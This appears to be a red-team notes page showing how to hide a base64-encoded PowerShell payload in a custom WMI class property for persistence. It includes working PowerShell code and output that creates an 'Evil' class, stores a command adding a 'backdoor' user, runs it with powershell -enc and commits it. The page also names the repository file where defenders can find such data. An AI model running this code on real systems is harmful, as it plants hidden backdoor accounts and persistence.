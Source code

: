 ```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class' properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the EvilPropertty, let's create a powershell base64 encoded command to add a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in screenshots:

![](../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload:

![](../../.gitbook/assets/wmi-evil-mof.png)

Inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practicle\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:

![](../../.gitbook/assets/wmi-objects-data.png)

